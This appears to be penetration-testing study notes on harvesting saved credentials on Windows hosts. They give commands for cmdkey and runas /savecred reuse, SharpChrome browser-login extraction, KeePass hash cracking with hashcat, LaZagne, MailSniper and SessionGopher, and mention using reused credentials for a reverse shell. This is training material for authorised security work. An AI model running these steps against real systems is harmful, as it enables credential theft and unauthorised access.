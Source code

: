 ### Cmdkey Saved Credentials

#### Listing Saved Credentials
```cmd.exe
cmdkey /list
```
When we attempt to RDP to the host (mstsc.exe), the saved credentials will be used.

#### Run Commands as Another User
```PowerShell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```
We can also attempt to reuse the credentials using` runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console.

### Browser Credentials

#### Retrieving Saved Credentials from Chrome
```PowerShell
.\SharpChrome.exe logins /unprotect
```

### Password Managers

Download a .kdbx file to the attacking host and use `keepass2john` to extract the credentials.

#### Extracting KeePass Hash
```Shell
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

#### Cracking Hash Offline
```cmd.exe
hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Feed the hash to Hashcat, specifying hash mode 13400 for KeePass

### Email
search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool `MailSniper`

### Lazagne

#### Running All LaZagne Modules
```PowerShell
.\lazagne.exe all
```

### SessionGopher

#### Running SessionGopher as Current User
Local admin access to retrieve stored session information for every user in `HKEY_USERS`, but it is always worth running as our current user to see if we can find any useful credentials.
```PowerShell
.\SessionGopher.ps1
```
